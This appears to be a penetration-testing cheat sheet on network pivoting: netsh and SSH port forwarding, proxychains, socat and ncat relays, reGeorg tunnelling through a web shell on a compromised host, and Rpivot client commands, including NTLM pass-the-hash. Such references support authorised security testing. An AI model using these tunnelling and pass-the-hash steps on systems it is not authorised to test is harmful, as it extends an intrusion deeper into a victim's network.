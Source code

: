 # Network Pivoting Techniques

## Windows netsh Port Forwarding
```powershell
netsh interface portproxy add v4tov4 listenaddress=localaddress listenport=localport connectaddress=destaddress connectport=destport

netsh interface portproxy add v4tov4 listenport=3340 listenaddress=10.1.1.110 connectport=3389 connectaddress=10.1.1.110
```
1. listenaddress – is a local IP address waiting for a connection.
2. listenport – local listening TCP port (the connection is waited on it).
3. connectaddress – is a local or remote IP address (or DNS name) to which the incoming connection will be redirected.
4. connectport – is a TCP port to which the connection from listenport is forwarded to.


## SSH

### SOCKS Proxy
```bash
ssh -D8080 [user]@[host]

ssh -N -f -D 9000 [user]@[host]
-f : ssh in background
-N : do not execute a remote command
```

### Local Port Forwarding
```bash
ssh -L [bindaddr]:[port]:[dsthost]:[dstport] [user]@[host]
```


### Remote Port Forwarding
```bash
ssh -R [bindaddr]:[port]:[localhost]:[localport] [user]@[host]
```

## Proxychains
**Config file**: /etc/proxychains.conf
```bash
[ProxyList]
socks4 localhost 8080
```
Set the SOCKS4 proxy then `proxychains nmap 192.168.5.6`

## Web SOCKS - reGeorg
```
python reGeorgSocksProxy.py -p 8080 -u http://compromised.host/shell.jsp
```

## Rpivot

Server (Attacker box)
```python
python server.py --proxy-port 1080 --server-port 9443 --server-ip 0.0.0.0
```

Client (Compromised box)
```python
python client.py --server-ip <ip> --server-port 9443
```

Through corporate proxy
```python
python client.py --server-ip [server ip] --server-port 9443 --ntlm-proxy-ip [proxy ip] \
--ntlm-proxy-port 8080 --domain CORP --username jdoe --password 1q2w3e
```

Passing the hash
```python
python client.py --server-ip [server ip] --server-port 9443 --ntlm-proxy-ip [proxy ip] \
--ntlm-proxy-port 8080 --domain CORP --username jdoe \
--hashes 986D46921DDE3E58E03656362614DEFE:50C189A98FF73B39AAD3B435B51404EE
```


## Basic Pivoting Types
| Type              | Use Case                                    |
| :-------------    | :------------------------------------------ |
| Listen - Listen   | Exposed asset, may not want to connect out. |
| Listen - Connect  | Normal redirect.                            |
| Connect - Connect | Can’t bind, so connect to bridge two hosts  |


## Listen - Listen
| Type              | Use Case                                    |
| :-------------    | :------------------------------------------ |
| ncat              | `ncat -v -l -p 8080 -c "ncat -v -l -p 9090"`|
| socat             | `socat -v tcp-listen:8080 tcp-listen:9090`  |
| remote host 1     | `ncat localhost 8080 < file`                |
| remote host 2     | `ncat localhost 9090 > newfile`             |


## Listen - Connect
| Type              | Use Case                                                        |
| :-------------    | :------------------------------------------                     |
| ncat              | `ncat -l -v -p 8080 -c "ncat localhost 9090"`                   |
| socat             | `socat -v tcp-listen:8080,reuseaddr tcp-connect:localhost:9090` |
| remote host 1     | `ncat localhost -p 8080 < file`                                 |
| remote host 2     | `ncat -l -p 9090 > newfile`                                     |


## Connect - Connect
| Type              | Use Case                                                                   |
| :-------------    | :------------------------------------------                                |
| ncat              | `ncat localhost 8080 -c "ncat localhost 9090"`                             |
| socat             | `socat -v tcp-connect:localhost:8080,reuseaddr tcp-connect:localhost:9090` |
| remote host 1     | `ncat -l -p 8080 < file                                                    |
| remote host 2     | `ncat -l -p 9090 > newfile`                                                |


## Thanks to
 * [Network Pivoting Techniques - Bit rot](https://bitrot.sh/cheatsheet/14-12-2017-pivoting/)
 * [Port Forwarding in Windows - Windows OS Hub](http://woshub.com/port-forwarding-in-windows/)
